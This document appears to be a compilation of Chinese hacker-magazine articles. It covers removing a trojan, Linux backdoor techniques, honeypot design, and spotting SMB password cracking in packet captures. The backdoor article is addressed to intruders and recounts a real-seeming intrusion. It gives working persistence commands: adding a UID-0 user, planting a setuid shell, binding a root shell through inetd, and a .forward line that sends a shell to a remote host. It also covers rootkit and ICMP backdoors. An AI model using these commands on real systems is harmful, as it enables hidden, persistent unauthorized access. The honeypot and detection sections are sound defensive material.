现在，相信大家都了解“神气儿2.0木马”的使用了，现在我就给大家讲讲如何清除这款木马。我们可使用“神气儿”自带的清除功能来清除它，点击“文件浏览”标签，然后选择被控制的电脑，点击鼠标右键，选择“卸载被控端(U)”，等被控制的电脑重启后，就清除了神气儿木马。

如果想手动清除也可以，先结束“explorer.exe”进程，即资源管理器的进程，因为“神气儿”是用 DLL 进程插入技术的，它把 DLL 文件进程插入到了“explorer.exe”进程里，所以结束“explorer.exe”进程，也就结束了木马进程。然后在 C:\Windows\System32 目录里找到 spoolsv.exe 和 soul.dll 文件，把它们删掉就可以了，再把“神气儿”的服务删掉。打开 CMD，使用 sc 命令，其命令格式是：

```text
sc delete 服务名
```

比如服务名称是 soulservice，使用的命令就是：

```text
sc delete soulservice
```

怎么样？现在你是否已经喜欢上这款国产木马了？好了，文章就写到这里，有什么问题可到 X 档案的官方论坛来一同探讨。


## 重拨自己的战场——浅谈 LINUX 下的后门技术

如果说入侵是一门技术，那么后门技术则是更高一层的艺术。严格地来说，入侵并不是什么难事儿，由于网络资源的共享，很多 SCRIPT BOYS 很容易拿到现成的攻击程序，并能轻易地找到脆弱主机，仅仅需要输入几个简单的字符，就可以瞬间进入某台服务器，获取其完全操纵权，为所欲为。机警的网络管理员一般都能很快地发现异常，迅速切断黑手来源，用最快的速度检查并且恢复系统，打上相应的补丁，把黑客拒之于门外。

黑客为什么想成为服务器的 ROOT 用户？原因无非是想使用他人的网络、CPU、硬盘，得到别人的数据，或者纯粹出于无聊，想搞破坏而已。如果你入侵的动机基于前面 4 种，那么，如何绕过机警的管理员的眼睛，并且在你需要的时候重回到你入侵过的某台主机上，是你必须面对的问题。

Windows 下的后门技术已经比较成熟了，以前个人比较欣赏的就是 http://www.sunx.org/htm/mysoft.htm 上面提供的 AttachDoor 工具集，包括 EXE 文件插入 DLL，进程插入 DLL，进程置入 Shell。后来又出现了很多优秀的后门，比如小榕的 BITS，WineggDrop 的同名后门。Windows 后门技术发展到了空前的一个高度，这里就不再细细评论了。我们下面要谈的是 Linux 下的后门技术，其中结合了本人入侵中积累的一些经验。

Linux 口令加密机制源于 DES，通常使用 56 位密钥加密 64 位的文本块。传统的 crypt() 函数把用户口令填充到 8 个字符，并用每个字符的 7 位形成一个 56 位的 DES key。该 key 被用来对 64 位零块进行加密并重复多次，最终结果写到 `/etc/passwd` 或 `/etc/shadow`。为了使基于 DES 的加密能够更有效地抵御字典攻击，增加了“盐”值（0—4095 之间），用于扰乱 DES 算法。

Linux 分 3 类用户：root、普通用户、系统用户。系统用户不属于任何人，他们有特定用途，例如 LP、GAME、NOBODY 等（记住：无论是首次入侵还是为日后重返考虑，这类用户也可能成为你的突破口，ROOT 很容易忽略这些用户的变化，这些用户本身也可能存在着默认口令）。

下面来分析一下 `/etc/passwd` 文件，它的每个条目有 7 个域，分别是“名字：密码：用户 id：组 id：用户信息：主目录：shell”，例如：

```text
root:x:0:0:root:/root:/bin/bash（从 passwd 提取出的）
root:$1$EjgcIgpU$TNdrlPIDp/Hef./wvDB8oVZ0:12342:0:99999:7:::（从 SHADOW 里提取出的）
```

了解了 Linux 口令认证技术和密码文件的结构，为了重返肉鸡，于是一些人做出了大胆的举动：更改 `/etc/passwd` 和 `/etc/shadow` 文件，包括添加一般用户和特权用户，或者修改上面提到的系统用户。`echo "CIEL::0:0::/:/bin/sh" >> /etc/passwd`，因为这个用户的 UID=0，这样就添加了一个叫“CIEL”的 ROOT 级用户。相应地，如果修改一个已经存在的用户，把它的 UID 设成 0，这样更加隐蔽，当此用户下次登录进系统时，直接拥有 ROOT 权限。

但是由于已经更改了系统文件，只要管理员足够警觉，就可以断绝入侵者的后路。于是入侵者想到了一个系统工具：crontab。它的功能是在一定的时间间隔调度一些命令的执行。在 `/etc` 目录下有一个 crontab 文件，这里存放有系统运行的一些调度程序。每个用户可以建立自己的调度 crontab。这样，入侵者就可以运用这个程序定时添加/删除一个特权用户或者一个后门 SHELL 程序，就可以解决容易被发现的问题，而且可以在每一天特定时间内进行攻击！

## 最好的也是最常见的：弱口令

Linux 主机一般都提供了 TELNET 服务，便于用户远程登录主机。这样虽然方便了 ROOT 的远程管理，同时也方便了黑客的入侵。由于安全环（Ring of Security）的使用，根用户是否远程直接使用 TELNET 的，入侵者就将突破两层安全环（普通用户和根用户）。笔者的一次入侵是通过 WU-FTP 溢出成功进入某台 Linux 主机的，进入后确认管理员不在线，首要任务就是取得 SHADOW 文件，传到本地，用 JOHN 花了 5 分钟跑出了几个普通用户的弱密码，然后再花了些时间跑出了 ROOT 的密码。个人觉得这个是最稳妥的后门技术，当完全擦除入侵时留下的痕迹后，管理员就无法察觉到你的存在，入侵者又完全掌握了 2 层口令，日后的重返不是什么难题。

这种办法虽然安全，没有更改系统任何设置，可是很被动——一旦正常用户口令到期，并且更换了口令，入侵者就得另谋出路了。

### LINUX 的口令验证技术

- 1. Linux 远程登录提供的不止是 TELNET，还有 RSH 和 RLOGIN 等基于用户 `~/.rhosts` 文件的认证方法。于是入侵者可以修改 `~/.rhosts` 为以后的重返铺平道路。只要在目标用户的此文件中加入两台主机名，就可以通过此用户直接通过 R 系列命令登录目标主机而不需要任何验证过程！
- 2. 修改 login。login 程序通常用来对 telnet 来的用户进行口令验证。入侵者获取 login.c 的源代码并修改，使它在比较输入口令与存储口令时先检查后门口令。如果入侵者先输入了后门口令，那么就可以直接登录系统，获取可爱的 `#` 号。
- 3. 随着网络技术的发展，越来越多的人意识到 R 系列命令的不安全性，新一代 ssh 技术已经被广泛运用，取代 R 系列命令是早晚的事情。这里不再对其详细介绍，可是这种技术仍然存在着弱点：ssh 认证时需要密钥。黑客把他自己的主机密钥放到目标机器的 ssh 配置文件 `authorized_keys` 里，即可实现无口令重返。

# 主题乐园

他可以用该账号来访问机器，而不需要提供密码。

- 1. 设置 UID 程序，比如拷贝并修改 SHELL 程序。

```bash
#cp /bin/ksh /tmp/.sh
#chown root.root /tmp/.sh
#chmod +s /tmp/.sh
```

当入侵者下次用普通用户身份登录系统后，直接运行修改后并被隐藏在某处的 SHELL 程序，就可以直接获取 ROOT 权限。总结上面几种技术，可以简称为服务后门，甚至 finger、ftp、inetd 等都可以被修改成后门。

```bash
## echo "ingreslock stream tcp nowait root /bin/sh sh -i" >> /tmp/x
## /usr/sbin/inetd -s /tmp/x
```

在目标主机 1524 端口绑定了一个 ROOT SHELL，登录上去最终获取 ROOT 权限。网络上盛传的 BINDSHELL 可在任意端口绑定 ROOT SHELL，这种技术容易被端口扫描发现。随后文中引出 ROOTKIT：用于迷惑管理员、窃取敏感数据、嗅探网络对话并提供后门工具集。

下面给出一个 ROOTKIT 的 README 文档，列出其包含的程序和用途。

| 程序 | 说明 |
|---|---|
| bindshell | port shell (tcp daemon) |
| chfn / chsh / passwd | Trojanned，提权 user->root |
| cron / du / find / ls | Trojanned，隐藏文件或任务 |
| ifconfig / linsniffer / sniffchk | 嗅探相关 |
| inetd / login / rshd | Trojanned，远程访问 |
| netstat / tcpd | Trojanned，隐藏连接 |
| pidof / ps / killall | Trojanned，隐藏或保护进程 |
| syslogd | Trojanned，隐藏日志 |

| 文件/命令 | 描述 |
|---|---|
| wted / z2 | Trojanned，隐藏进程相关（示例） |
| /tmp/utmp_editor | 编辑 utmp |
| zap2 /tmp/wtmp | 清除 lastlog 记录 |

当定位器连接到肉鸡时，若管理员运行被替换的 NETSTAT，屏幕上不会显示真实连接情况，导致难以及时发现入侵者。与 ROOTKIT 相关的还有校验和及时间戳后门：通过替换系统文件并同步时间戳躲避完整性校验。

文中还提到通过修改邮件服务配置（如 sendmail.cf）实现 25 端口后门；以及利用 WEB 服务（80 端口）留后门。攻击者往往先拿到低权限，再通过本地提权获取更高权限，最后清理痕迹以降低被发现概率。

不同网络协议后门包括 TCP、UDP、ICMP。TCP 后门容易被 NETSTAT 或防火墙规则发现；UDP 后门常借助“看似正常”的 UDP 流量绕过粗放配置；ICMP 后门因不监听端口而更隐蔽，可把命令与数据封装在 ICMP 报文中传递。

文中举例 LOKI/LOKID：在内网主机部署服务端后，攻击者通过客户端把命令封装进 ICMP 或 UDP 包发送至目标，由服务端执行并回传结果。由于许多防火墙允许此类分组进出，恶意数据可混入正常流量中到达目标。

# 破坏文件系统后门：可以用来存放大量数据

入侵者可在硬盘上划出隐藏区域（如“坏扇区”伪装区）存放文件，需要专用工具访问。普通管理员较难察觉其存在及其中内容，因此这种方式隐蔽性较高。

只是听说过，没有遇到过。事实上，后来出现的 ROOTKIT 里的 DU、LS 等程序也可以起到同样的效果，把入侵者的文件隐藏起来。

**.forward 后门**：如果服务器开放 SENDMAIL 服务的话，入侵者可以在 .forward 中执行一些 SHELL 脚本，这样的方法和 CRONTAB 有点类似。最简单的是把 .forward 设置成：

```
\username|"/usr/local/X11/bin/xterm -disp hacksys.other.dom:0.0 -e/bin/sh"
```

**PAM 后门**：很多服务都依赖 PAM（PLUGGABLE AUTHENTICATION MODULES）认证，因此通过修改这些 PAM 库，入侵者可以一次在多个服务中添加 MAGIC PASSWORD……

上面的后门技术都是很表面的东西，这里必须得提到内核后门。内核是 Unix 工作的核心，用于 MD5 校验的方法同样适用于内核级别……

（用以隐藏进程，截获 sys_execve() 重定向可执行文件；改变 sys_read() 隐藏网络连接）。于是涉及到了 LKM ROOTKIT，最著名的 adore 是由 teso 小组成员开发的一个 LKM 后门……

一旦系统被攻破并且被安装了 LKM 的 rootkit 程序，这就很难被发现了……常见的后门技术差不多都列在这里了……

**如何防御**：限于篇幅，这里只是大概提一下，重要的是防范黑客的第一次入侵，关键在于提高系统安全强度，避免存在弱口令……推荐 RKDET、CHKROOTKIT、TRIPWIRE 三款工具……


# 二、HoneyPot 的定义

## 1. 如何理解 HoneyPot

HoneyPot 就是我们常说的蜜罐，HoneyPot 系统实际上就是故意设计一个存在缺陷的系统……并不能因为满足此条件就称之为蜜罐……

从风险角度上来说，似乎这个蜜罐是达到了屏蔽风险的一个目的……但是对于企业网络来说，入侵者轻易获得一台主机权限后，其危险性不言而喻。

从技术角度上来说，上面所提到的那个东西，多多少少与堡垒主机有些相似，但是又不完全一样，所以我一直感觉这玩意是个“四不像”。

说了这么多废话，蜜罐到底是什么？正如上面所说，“故意设计一个存在缺陷的系统”这是第一步……还需要阻断蜜罐和内部网络或其他网络的通信……并在特定行为触发时产生报警……

## 2. HoneyPot 是消极的

首先，我认为有必要再澄清一下 HoneyPot 的概念……只要是如下面描述的一个系统，我们都可以认为它是 HoneyPot。

> 注意：不以捕捉入侵者为基础搭建的系统，或者在被入侵后不能观察其动作、不能跟踪记录、不能保证他所获得权限受控的，都不能称为成功的 HoneyPot。

满足以上条件，我们都可以称之为 HoneyPot……蜜罐系统并非“消极”，其目的是诱惑入侵者并将其活动限制在可控范围内。

# 二、蜜罐像什么？

为了让大家能更形象地了解蜜罐，这里简单地将蜜罐与一些其他常见系统做一个比较：

- 1、与 IDS 系统比较  
  蜜罐的警报系统和记录过程与 IDS 有相似性。IDS 会依据规则在网络或主机上触发事件并报警，蜜罐系统也应具备类似功能。

- 2、与堡垒主机比较  
  堡垒主机强调陷阱式系统构建，蜜罐系统也具有这一特点。

- 3、DMZ 区与蜜罐和被防御网络之间关系的比较  
  首先了解 DMZ 区（非军事区）……很多防火墙产品都提供接口用于连接 DMZ 区。


A）、DMZ（接口 B）和 Intranet（接口 C），希望大家都能分清楚 Internet 和 Intranet 的区别。

DMZ 区的作用是隔离外部访问与内部网络：从 A 口进入的数据可访问 B 口主机，但不能访问 C 口企业内部主机。

形象地看，DMZ 起到隔离作用，类似蜜罐与内部网络的关系。即使外部入侵者进入蜜罐，也应限制其不能跳板进入内网。

# 三、蜜罐的分类

这里对蜜罐做一个简单分类：该分类偏向实现技术层面，便于理解。

- 1、虚拟的蜜罐系统  
  虚拟蜜罐通常在单机环境中搭建，通过虚拟服务诱惑入侵者并记录其行为，例如针对特定软件的陷阱。其监控与记录机制相对不够完整。

- 2、真实的蜜罐系统  
  真实蜜罐多部署于较大网络中，使用独立主机按特定位置搭建。个人或小型网络受条件限制较难完整部署，但可通过虚拟机模拟接近真实的 HoneyPot。

# 四、蜜罐系统的安全、保密以及法律问题

## 1、蜜罐系统的安全性

这里所谈的安全性，主要是指架设蜜罐系统后，对同网段其他主机以及相关网络环境的安全影响；并非仅指蜜罐操作系统本身安全。

如果将蜜罐系统加固得无坚不摧，那么，无人能入侵，也就无法诱捕了；这里所说的是蜜罐系统和其他主机所接触的边界的安全性问题。这里所说的边界，我们可以这样想象：这里有一排房子，房子涉及三个屋子，分别标识为 1、2 和 3（如图 2）。


我们假设用这三个房屋来诱捕一个小偷，用来诱捕小偷的房间是编号为 2 的屋子，这里放上一些《黑客 X 档案》精华杂志来诱捕，而房间 1 和房间 3 是用来监视的。那么，再假设小偷是个身强体壮的悍匪，我们打不过他，因此只能监视其犯罪行为并取证，然后叫警察叔叔来抓他。

那么，我们在房间 1 和 3 监视的时候，就需要记录他在房间 2 时的动作，同时，需要保证房间 2 到房间 1 和到房间 3 之间的每堵墙或是门都足够结实，不要让小偷在房间 2 得手后又继续去房间 1 和房间 3 去作案。这样，一旦他进入了这两个房间中的任何一间，由于在里面监视的人无法对付他，那么，小偷肯定就变强盗，将里面的财宝抢夺一空。

例子虽然不够恰当，但是道理相似：如果入侵者在拿到蜜罐后，如果蜜罐和其所在网络中的主机之间那堵“墙”不够结实，那么，搭建这个蜜罐最后一定会是“赔了夫人又折兵”，这种得不偿失的事情，是不应该出现的。

## 2、蜜罐系统的保密性

蜜罐系统的保密性是十分必要的。一般来说，我们不需要对蜜罐系统本身的保密设置做什么特殊要求，而解决保密性的一个十分简单的问题就是：在蜜罐系统上不放置任何敏感文件，或者不将任何敏感信息写入到蜜罐系统中。

例如，当我们为蜜罐系统命名时，有些人喜欢用自己的名字或是公司的名字为自己的系统命名，但如果对蜜罐系统也如此做的话，那么，毫无疑问就是告诉入侵者你是谁。对于一个经验丰富的入侵者来说，甚至很有可能就因此而判断：他所处的系统不是一台真实的主机，而是一个蜜罐。可见，对蜜罐系统本身，保密性也是十分必要的。另外，也不要忘了蜜罐和其他主机之间的那堵“墙”。

你的网络中或是你的 PC 上架设了一个蜜罐的时候，那么，应该让这个蜜罐的维护者明白，虽然蜜罐是让人来入侵并起到诱捕的目的，但安全性和保密性也是不容忽视的。

## 3、蜜罐所涉及到的法律问题

首先是诱捕的问题：在法律上，诱捕这个名词是为执法者准备的，是指执法者在诱惑某个非法或犯法人员从事一项非法的行为。例如，我们经常看见警察叔叔在一些他们自己放置的目标前埋伏，就好像老鼠夹子上放上老鼠爱吃的奶酪一样，这都应当属于这里所说的诱捕。然而，对于我们来说，我们并非执法人员，因此，我们所做的“诱捕”活动和上面所定义的诱捕是有所不同的。从这个角度上来说，我们应该是不需要负上任何法律责任的。

虽说如此，但是，在另一方面，我们因为构建了一个存有缺陷的系统，而该系统使人能轻易进入，所以，很多人也认为，从这个角度上来讲，我们做到了“诱惑他人进行犯罪”；但从实际上来说，我们并没有任何错误，我们是这个蜜罐系统的拥有者（即使它不是蜜罐，我们仍是它的拥有者），而我们在构建了这个蜜罐后并未进行宣传等动作，而蜜罐被人入侵完全是入侵者在网络上进行扫描时发现，同时以其主观判断并决定入侵系统，因此，我们没有罪过。搭建蜜罐者无罪，真是太好了，但是，入侵者呢？

首先，由于蜜罐本身也是一个单独的 PC，或是对虚拟的蜜罐来说它属于 PC 的一个部分（更确切地说是 PC 上操作系统中的一部分），那么，在入侵者没有获得 PC 的拥有者授权的情况下就对其进行扫描，显然是不合法的；在扫描完成并入侵成功后，那么，入侵者登录瞬间，由于其未经这台 PC 拥有者的授权而擅自登录这些主机，其行为必然已触犯法律，同时也侵犯了该 PC 拥有者的隐私（不管这台计算机上是否真的有什么私人内容）。

总之，入侵时遇到蜜罐一定要小心，因为，你的一举一动实际上都是在与法律作对，而你在蜜罐系统上所产生的记录和日志，也将成为法庭上的证据（个人认为，对于无聊的入侵者，这是他最好的去处）。

# 五、蜜罐系统实战篇

前面一直在说一些理论的东西，很多读者一定认为是废话了。不管如何，废话也好，理论也罢，到此为止，现在开始蜜罐系统的实战。在开始之前，先提一下关于蜜罐的伪装：

## 1、操作系统和服务的伪装

一个蜜罐系统无论是虚拟的还是使用一个真实的操作系统做出来的，蜜罐的伪装都是一个十分重要的步骤。就目前的技术来讲，判断操作系统的方法一般都是通过 TCP/IP 堆栈指纹这样的办法对系统进行判断。例如，最古老而且也最常见的就是类似使用 telnet 或是 ftp 这样的程序来连接开放了相应服务的主机，然后，我们通过欢迎语来判断操作系统的类型。而一个好的蜜罐系统，对操作系统（和服务）的伪装是十分必要的。

例如，这里有一个用于 UNIX 和类 UNIX 系统下的蜜罐，这个蜜罐就具有操作系统类型和服务的伪装功能（如图 3）。从图中可以看出，从 telnet 的方法进行判断的话，我们看到的欢迎语是 Solaris。当然，只要你愿意，修改软件的配置，我们还可以让连接 telnet 的人看到其他更多种类的操作系统。


同样地，服务的伪装也是如此。我们的目的是给入侵者产生错觉，让他们多绕弯路，他们在这些地方耽误的时间越多，对我们收集他们的资料越有利。

由此可见，伪装也是蜜罐实战中很重要的一步。我们以下的实践中，也会通过多种伪装的手法（伪装操作系统、服务等等）来迷惑对方。

关于伪装的问题，就简单说到这里，至于如何去做以及伪装后欺骗的效果，会在后面的实战中有专门的例子说明。

## 2、虚拟蜜罐系统

虚拟蜜罐系统往往是由于条件所限，或是因为需要而搭建的针对某个或某几个服务甚至端口的一个蜜罐系统。这里，就介绍一些针对不同服务以及不同端口的虚拟蜜罐系统的搭建方法。

## （1）TCP 80 端口，HTTP 服务

看上面的标题，目的已经明确，那就是伪装一个 HTTP 服务并诱惑。在本地计算机上打开端口 80 并进行监听是必要的。如何监听 80 端口是很重要且关键的问题。

相信很多人想到了 NC 这个工具，只要使用命令 `nc -vv -l -p 80` 就可以在本地打开 80 端口进行监听，并且还能获得对方的一些信息。但是对很多入侵者来说，他们在扫描到 80 端口开放后，往往会进一步使用 HTTP 方式访问，或结合 telnet 再发起 GET 请求来简单判断目标系统。

对于 `nc -vv -l -p 80`，如果对方使用漏洞扫描工具对 80 端口进行一系列测试，nc 端会有显示，但从实际防护角度看意义有限。因此，伪装一个更像 HTTP 服务的端口比简单监听程序更重要。

为了完成监听工作，这里将原有端口监听程序改成针对本地 80 端口的监听程序，同时让入侵者通过 IE 访问或通过 telnet + GET 方式时获取一些伪装信息。首先要规划：让入侵者在 IE 中输入主机 IP 后看到什么。

```html
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=GB2312">
<meta name="ProgId" content="Word.Document">
<meta name="Generator" content="Microsoft Word 9">
<meta name="Originator" content="Microsoft Word 9">
<title>My Home Page</title>
</head>
<body bgcolor="black" lang="ZH-CN" link="blue" vlink="purple">
<p class="MsoNormal" align="center"><span lang="EN-US" style="color:white">This is my HomePage</span></p>
</body>
</html>
```

上面这段代码是直接用 Word 编辑后保存得到的。目的不在于代码本身，而在于获得页面效果。保存为 htm 或 html 后打开，在 IE 最上方显示“My Home Page”，页面中没有任何内容，这也是诱捕思路：让对方连接更久，同时不显示明显信息。

在对方使用 IE 连接时，程序可通过 Perl 中 IO::Socket 模块的 `peerhost` 和 `peerport` 方法获得远程主机地址（或主机名）及访问本机时使用的端口号（如图 4）。


对入侵者来说，还常用 telnet + GET 方式获取 HTTP 服务器信息。对于此处模拟 HTTP 程序而言，返回的正是页面中给出的代码（如图 5）。


从图中可见显示效果较怪异，如愿意可再修改，尽量模仿 Apache 内容与样式，基本可达到欺骗目的；若要欺骗经验丰富者则更困难。

> 注意：若代码包含较多由 Word 生成的标记（如 `Microsoft Word Document` 等），显示样式可能不理想，可手工精简调整。

这样，基本就成功伪装了一个针对端口 80 的服务，并且程序可以顺利获得远程主机的 IP 地址和相关连接信息。

接下来，要做的就是基于 80 端口了解对方的入侵手法。

这里借助 Sniffer 或是 NC，使用工具为 Sniffer Pro 或是 Ethereal。当我们在运行上面提到的 http.pl 程序时，发现有大量来自同一个地址的连接（如图 6），那么，基本上可以肯定对方是在进行扫描。此时我们可以通过 Sniffer 或 NC 来捕获对方正在进行哪些扫描。

Sniffer 的使用在这里就不说了。在抓到数据后进入分析界面，这里先来看 Sniffer Pro 抓到的结果，一目了然（如图 7）。在协议为 HTTP 的数据中，可以很清楚地看到扫描的一些方式和方法，还可以看出是什么漏洞的扫描。

Ethereal 也是如此（如图 8）。

对于特定端口或服务的 Sniffer 还是比较容易的，只要有针对性地查找协议即可，或者使用 Sniffer 的过滤功能，则可以更快地找到需要的数据。

这里再说一下使用 NC 来捕捉扫描。对于 NC 来说，它虽然可以捕捉到很多动作，但是个人认为，在捕获扫描方法这方面，使用 NC 会有比较好的效果，主要是查看非常简单，不需要像 Sniffer 那样再进行查找过滤；另外，对于一些类似连接耗尽的 DoS 攻击，使用 NC 监听特定端口也会有比较好的效果。

在本文中，使用 NC 监听 80 端口要特别注意一个问题：因为之前我们一直使用的是我编写的 http.pl 进行 80 端口的监听，那么，当我发现有大量连接的时候，我们要做的是先关闭 http.pl 的运行，再运行 `nc -vv -l -p 80`，这样可以正确保证 80 端口由 NC 接管，否则可能出现异常，会导致 80 端口无法由 NC 监听，或是对方的扫描器因为无法连接本地计算机的 80 端口而中断扫描。这样会造成对方的怀疑，无论哪个结果，我们都不想看到。NC 监听的就不说了，以前我在很多文章中都提到过（如图 9）。

关于 HTTP 服务的模拟和对方信息的获取，就介绍这么多了；如果能很好地掌握的话，一般情况下都能在保证获得对方地址的同时，还能了解对方的入侵和攻击手法，准确地掌握对方的一举一动。


## （2）SMB 端口的监测

SMB 会话大家都应该不陌生，对于 SMB 所引起的问题，防御起来其实是非常简单的，只要屏蔽掉本地的 TCP 139 和 TCP 445 端口即可。大家不要小看 TCP 139 和 TCP 445 这两个端口，在这两个端口上面都有很大的手脚可做。


我们常说的空连接也以这两个端口为基础；另外，我们经常听到泄露主机信息这样的漏洞，其实大部分主机的信息就是从这两个端口上探测到的。如果在有限的实验环境中完成一个完整的 SMB 相关的蜜罐检测系统，我们无法模仿；但是，我们却完全可以通过监视其动作过程来说明 SMB 上相关的技术问题。

这里，针对两种常见的利用 SMB 会话的入侵和攻击行为进行讲解。

首先说一下需要用到的工具，这里是个人防火墙加 Sniffer，防火墙需要使用绿盟科技的绿色警戒。

# 主题乐园

因为它可以控制端口的开放和关闭，同时还可以直接抓取数据；Sniffer 选用 Sniffer Pro。

说一下防火墙的设置，安装完成后，在菜单上的“入侵检测”点“配置”，添加一个 TCP 139 和 TCP 445，然后选中，在对策中分别选择“警告”和“提示”（如图10）。


接下来，在“选项”下选择“开放共享”。这时，如果有外来连接本地计算机的 SMB 端口（139 和 445）的话，那么在显示器右上角就会弹出一个闪烁的五角星提示。既然环境已经准备好了，下面说一下 NT 口令的破解。

## NT口令破解

首先需要了解 NT 口令破解的一些问题。由于 Windows 2000 支持在一个 SMB 会话中多次尝试密码，因此目前利用 SMB 进行 NT 口令破解的工具一般只会建立一到两个连接，而不会像以前的工具那样建立多个连接，所以只从防火墙的报警上很难判断当前的报警是否属于误报。

但是，对于 NT 口令破解来说，往往并非是攻击前奏。通常我们是通过蜜罐系统的其他部分确认到扫描信息或攻击信息，然后根据这些来判断并确定当前的行为是 NT 口令破解。

对于 NT 口令破解，一般情况下只会出现一到两条的 SMB 会话连接（如图11）。因此，如果之前已经出现攻击前奏并且现在在防火墙中出现了这些信息，那么基本可以确定，对方在通过 SMB 对本机进行扫描，其中可能是简单的信息获取，也可能是 NT 口令破解。


关于信息获取的问题，在后面讨论，这里讨论口令破解。当出现上述情况时，可以采取一种措施、两种方法：唯一的一种措施就是 sniffer，至于两种方法则是分别使用绿色警戒自带的捕获数据功能和使用专业的 Sniffer。

## 1、绿色警戒的捕获数据功能

右键选择 SMB 端口（139 或 445）的连接并选择“捕获数据”（如图12）。然后选择路径和文件名，即会生成一个 dat 文件；当完成捕获的时候，使用一个十六进制编辑器打开即可（如图13）。


> 注意：根据测试，SMBCrack 破解时只产生一个 SMB 连接，而 X-scan 破解 NT 口令时会产生两个 SMB 连接。但根据捕获数据后发现，其中一个连接并非完整，不做任何工作。通常在破解过程中会在一个连接中完成。本地出现两个连接的时候，终究还是以两个连接上的数据都进行捕获。

### 2、Sniffer软件

对于这种方法没有太多需要讲解的，在防火墙发现异常后，打开 Sniffer Pro 进行 Sniffer 即可，时间长短自己确定。

# 分析

上面说了两种 Sniffer 方法，本人也提供了四个实例文件，分别为使用 SMBCrack 和 X-scan 进行 NT 口令破解的时候，使用了绿色警戒和 Sniffer Pro 进行抓取的数据包分别为：

- SMBCrack.sniffer.pro.cap
- x-scan-NT-crack-sniffer-pro.cap
- SMBCrack_NT_password_crack_nsfocus_capture.dat
- X-scan_NT_password_crack_nsfocus_capture.dat

由于 NT 破解很难像扫描那样一目了然地看出来，而是需要经过抓包分析，因此，本文旨在为各位读者提供针对 SMBCrack 和 X-scan 两种软件在破解时的特征码，以便大家以后在实践过程中对比，从而快速、及时地发现问题。

### SMBCrack破解特征

先看使用绿色警戒抓到的数据，不考虑其他数据，只考虑 SMB 协议传输的数据。一个 SMB 数据的头部是由 `FF 53 4D 42` 开始。由于抓到的是十六进制代码，无法按照抓包格式将数据贴进文章中，所以抓了张图（如图14），图中是一个完整的 SMB 数据包（注：只是 SMB 数据连接中的其中一个包，而不是指完整的 SMB 过程）。


在 `FF 53 4D 42` 后有一标志位 73，由此能得知该包是 X 会话的初始连接数据包。SMB 过程中，先建立连接，然后建立 X 会话，而在 X 会话需要验证。NT 口令破解就是在建立一个连接后，进行多个 X 会话，每次 X 会话中使用不同的用户或是口令进行破解。

再看一下 Sniffer Pro 抓的包。Sniffer Pro 中，应该可以轻易地看出数据走向以及前面所说的多个 X 会话的建立过程（如图15）。


每个 X 会话的建立过程都是这样的：先是 C（即 client，客户端）提出要求建立 X 会话，同时发出用户名和密码要求服务端验证；一旦密码错误，服务端便回复“Access Denied”。在 Sniffer Pro 抓到的包中可以清楚看见有大量的 X 会话初始和 X 会话的拒绝，这就是破解的过程。值得注意的是，SMBCrack 破解时，在 X 会话中提供的 Domain 为 DREAM（请仔细参看上图），这里需要注意，和 X-scan 提供的不同。

### X-scan破解特征

X-scan 的破解相对比较有特色。SMBCrack 破解时只建立一个 SMB 会话通道，而 X-scan 则是两个，通过抓包我们就可以清楚地看出来为什么 X-scan 是两个。

这里就不看绿色警戒的数据包了，直接看 Sniffer Pro 抓到的（如图16）。由图中我们看到这里有部分的 SMB 会话，实际上就是 X-scan 建立的第一个 SMB 连接，可以看出整个 SMB 会话建立过程没有任何验证，因此可以推断第一个 SMB 会话是空连接；在其后，还有注销会话的过程。


然后继续向下看（如图17），会看到大量带验证的 X 会话请求过程，与 SMBCrack 的过程相同。只不过，这里提交的 Domain 为 XXXXX，这些与 SMBCrack 也是不同的。


以上是对 SMBCrack 和 X-scan 进行 NT 口令破解时抓包分析的一些结论。以后在出现类似情况的时候，读者们在直接抓包分析后即可直接引用这些结论，从而判断入侵者当前行为是否正在进行 NT 口令破解。

## 远程操作系统信息的获取

这里就不尝试太多的软件了，我们以 X-scan 的扫描过程为例。通过一个实例的分析，就可以说明很多问题。为了实验的快速有效，在 X-scan 里做一下设置，在扫描模块（菜单“设置→扫描模块”）里只设置针对 NetBIOS 信息的扫描（如图18）。


在被扫描端，仍使用绿色警戒防火墙，同时也要对防火墙做好针对 NetBIOS 信息扫描的配置（如图19）。在入侵检测的配置中有 NetBIOS 一项可以选择，这里不要，自己定义以下规则：UDP 137、UDP 138 和 TCP 139，这三个用来获取 NetBIOS 信息的主要端口。


做好配置后开始扫描，如果防火墙配置正确的话，会在监视记录中看到 UDP 137、UDP 138 和 TCP 139 三个端口的大量警告（如图20），此时从三个端口上捕获数据。正常的话，UDP 137 和 TCP 139 端口上会捕捉到一些 SMB 消息模块的命令。由于是基本信息的探测，从信息中会捕捉到比较大量的 SEND 命令信息，从 `X_scan_get_NT_info_on_UDP_137.dat`（该文件在光盘中附带）文件头部可以看到一些 SEND 命令的信息（如图21）。可以很明显地看到 UDP/SEND 命令字样，另外还会显示本地计算机的 WORKGROUP。

类似地，在 TCP 139 端口上监听的内容（见文件 `X_scan_get_NT_info_on_TCP_139.dat`）也有类似命令，这里就不说明了，有兴趣的可以查看光盘中附带文件。以上的数据只是一个辅助性的，让大家对该过程有一个简单的了解，接下来我们来看一下 Sniffer 的数据，以进一步了解 NetBIOS 信息扫描的整个过程。


## 首先从 SMB 协议看起

前面讲过利用 SMB 会话进行 NT 口令破解。NT 口令破解过程在协商成功或失败后，会有多次利用 administrator 或其他用户进行尝试性的 X 会话建立，这是猜解密码的过程；而获取主机信息的过程则有很大不同，获取主机信息的过程往往会在一次 X 会话建立失败，甚至在未建立 X 会话的情况下，就通过主机的 DCE 服务进行主机信息的枚举（如图22）。


从图中可以较明显地看出整个过程中有多个通过 DCE 服务进行信息枚举的过程（通过查看 DCE RPC 服务的数据内容便可得知）。从中，我们可以捕捉一些关键字，例如 PIPE、IPC$ 等等，都是明显的获取信息的过程。但是，由于这个过程是受操作系统保护的，因此，如果想通过 Sniffer 抓到的数据看到对方在获取本机什么信息的话，确实是一件不太可能的事。虽说如此，但是大量的枚举过程已足以说明问题。还记得前面说过的两个 UDP 端口吗？大家可以做这样一个实验：在计算机开机的时候，以最快的速度进行 Sniffer 或是打开防火墙，而且在防火墙中对 UDP 137 和 UDP 138 端口进行一定的设置，以便在这两个端口有活动或有数据流过的时候你能知道。那么你就能很明显地看到，在刚打开计算机的时候，这两个端口是十分活跃的。

